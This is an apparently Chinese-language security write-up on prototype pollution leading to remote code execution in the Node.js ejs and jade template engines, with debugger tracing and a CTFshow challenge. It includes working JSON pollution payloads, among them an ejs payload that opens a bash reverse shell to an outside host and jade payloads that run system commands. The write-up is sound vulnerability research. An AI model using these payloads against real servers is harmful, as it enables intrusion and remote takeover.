几个node模板引擎的原型链污染分析
0x00 前言
跟着网上文章分析复现一遍ejsRCE链,然后尝试自己探究一下jadeRCE链
RCE 的前提是要有原型链污染
lodash 原型链污染demo
1 | var _= require('lodash'); |
0x01 ejs
环境和调试代码参考 https://xz.aliyun.com/t/7075#toc-5
逐步跟踪找到渲染模板的compile函数,参考Express+lodash+ejs: 从原型链污染到RCE
从index.js::res.render开始跟进

进入到app.render

然后进入到app.render里的tryrender函数

view.render.

然后看到在View.render开始渲染.从这个函数进入ejs模块

继续跟进到renderFile.里面有tryHandleCache函数

继续跟进到handleCache函数,

在这找到了渲染模板的compile函数

然后在这个函数里实例化了一个模板类,然后编译.
继续跟踪编译函数

可以发现几处关键代码,
正常情况下opts.outputFunctionName为undefined.可以通过原型链污染控制其值,然后拼接到prepended.
prepended在后面传递给了this.source.

this.source在后面作为构造函数参数传递给fn

fn最终通过fn.apply()被调用.
所以控制opts.outputFunctionName就可以注入任意代码.
payload:
1 | {"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/xxx/6666 0>&1\"');var __tmp2"}} |
0x02 jade
1.先贴两个利用链
这个之前见到了两个利用链,但是做ctfshow题目的时候都不能利用.
先贴出利用链:
1 | 1. |
2. 利用链分析
参考 https://xz.aliyun.com/t/7025
- 环境搭建
app.js
1 | const express = require('express'); |
index.jade
1 | h1= title |
直接利用上面的payload会报错

先调试分析漏洞利用点
进入jade模块. res.render=>app.render=>tryRender=>view.render=>this.engine,和ejs差不多.

入口是renderFile函数.进入

注意rendfile函数返回值可执行.进入handleTemplateCache

进入compile函数.

这点和ejs不同,在compile之前会有parse解析.
然后可以看到结果返回到parsed,又传递给了fn.
先不管parse函数,继续向下看代码

可以看到parse后的返回值最终会被当作代码执行.
然后进入parse,审计是否返回值中有可控部分.

parse函数内部可以看到先parse再compile.parse结果最终会被拼接到外层parse函数返回值部分

然后进入compile函数进行审计

可以看到compile函数返回的是buf.
步入代码,this.visit

发现可控的node.line可以被push到buf中.条件是this.debug=True.

可以发现payload是成功拼接到buf里的,但是会报错

跟进报错信息可以发现在Object.exports.renderFile => handleTemplateCache=>Object.exports.compile=>parse=>addWith处.

令options.self为true可避免进入addWith函数.网上的一些文章payload分析也就到此,但是发现这个payload打不通且没有出现很明显的报错,这点留到后面分析.
很偶然的情况下我对模板做出了修改,改成如下的,然后发现就可以造成RCE了
1 | h1 title: #{title} |

初步猜测污染self太粗暴,会影响h1= title这种模板渲染方式(不确定猜测是否正确.)
3. Ctfshow题目分析
ctfshow有一道题目也是考察jade链的利用.
只贴模板信息(其余的都差不多)
layout.jade
1 | doctype html |
index.jade
1 | extends layout |
将上面分析得到的payload打入.报了如下错误.

跟着调用栈分析.最终可以找到在visitNode函数.会有node.type为undefined的情况,

正常情况下node.type值为tag/Block等等,然后调用相应函数.

解决方法就是把type也污染了.全部测试了一下,发现visitxxx函数及可用的如下
1 | visitAttributes |
payload举例
1 | {"__proto__":{"__proto__":{"type":"Code","self":1,"line":"global.process.mainModule.require('child_process').execSync('calc')"}}} |
4.填坑.
最开始的模板.
1 | h1= title |
执行payload会报如下错误.

这个具体哪报错也没分析到,但是尝试污染title.
payload:
1 | {"__proto__":{"title":"test","self":1,"line":"global.process.mainModule.require('child_process').exec('calc')"}} |
发现就成功了.

0x03 总结.
原型链污染的精髓:undefined属性/值
下面梳理一下上面有关jade RCE链的payload
针对普通的模板:只需要污染self和line.
- 包括下面这种
1 | h1 #{title} |
有继承的模板: 需要污染type
顶格的h= title类型的: 污染block属性(title,name这些模板变量)
1 | h1= title |
0x04 参考
ejs:
jade: